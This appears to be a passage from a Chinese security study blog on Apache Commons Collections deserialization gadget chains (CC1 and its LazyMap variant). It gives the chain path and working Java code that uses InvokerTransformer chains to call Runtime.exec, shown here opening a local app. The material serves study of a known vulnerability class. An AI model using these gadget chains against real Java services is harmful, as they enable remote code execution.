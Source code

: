```java
        HashMap map = new HashMap();
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        map.put("value","bbb");
        Class AnnotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor AnnotartionConstructer = AnnotationInvocationHandler.getDeclaredConstructor(Class.class,Map.class);
        AnnotartionConstructer.setAccessible(true);
        Object o = AnnotartionConstructer.newInstance(Target.class,transformedMap);
        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }



}
```

![image-20250217223428712](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217223428827.png)


## CC1-2

反序列化方法deserialize->AnnotationInvocationHandler.readobject()->Proxy(annotationInvocationHandler).xxx（invoke）->LazyMap.get()->transform()

LazyMap.get()中调用了transform方法

![image-20250218104231354](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218104231397.png)

factory可控，在构造函数中被赋值，构造函数为protected，所以用decorate方法来调用构造方法

![image-20250218104441772](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218104441814.png)

配合CC1第一条链部分，利用LazyMap的get方法去调用transform来实现，成功弹出

![image-20250218153948893](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218153948980.png)

```java
 Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/NeteaseMusic.app"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> decorate = LazyMap.decorate(map, chainedTransformer);
        decorate.get(Runtime.class);
```
